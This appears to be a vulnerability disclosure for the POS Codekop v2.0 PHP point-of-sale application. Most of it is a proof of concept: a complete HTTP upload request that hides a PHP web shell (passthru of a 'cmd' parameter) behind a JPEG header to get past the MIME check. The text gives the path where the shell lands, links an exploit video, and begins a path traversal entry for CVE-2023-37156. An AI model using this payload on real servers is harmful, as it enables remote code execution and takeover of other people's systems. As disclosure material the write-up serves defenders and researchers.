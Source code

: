 To prevent Remote Code Execution in the upload feature, relying solely on mime type checks is not sufficient. It is essential to include an file extension check as well.

PoC:
```
POST /research/pos-kasir-php/fungsi/edit/edit.php?gambar=user HTTP/1.1
Host: localhost
Content-Length: 8934
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
**Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymVBHqH4m6KgKBnpa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-User: ?1**
Sec-Fetch-Dest: document
Referer: http://localhost/research/pos-kasir-php/index.php?page=user
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=vqlfiarme77n1r4o8eh2kglfhv
Connection: close

------WebKitFormBoundarymVBHqH4m6KgKBnpa
Content-Disposition: form-data; name="foto"; filename="asuka-rce.php"
Content-Type: image/jpeg

ÿØÿà JFIF  H H  ÿþ 6<?php passthru($_GET['cmd']); __halt_compiler(); ?>
ÿÛ C 





#%$""!&+7/&)4)!"0A149;>>>%.DIC<H7=>;ÿÛ C
-----------------------------
```

PHP Web Shell location:
- http://localhost/research/pos-kasir-php/assets/img/user/1687670330asuka-rce.php

I also provide a video about how to exploit this vulnerability.
- [**POS Codekop v2.0 Authenticated RCE**](https://www.youtube.com/watch?v=Ge0zqY0sGiQ)

## Path Traversal
Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE ID | CVE-2023-37156 |
| Classification | Path Traversal |
| Description | There is an unsafe way of using PHP's `include` function in POS Codekop that allows attackers to perform a **Path Traversal** by accessing directories outside of `admin/module/`. |
| Required privilege | Authenticated |
| Affected Version | v2.0 (#0~gitebc5c29) |
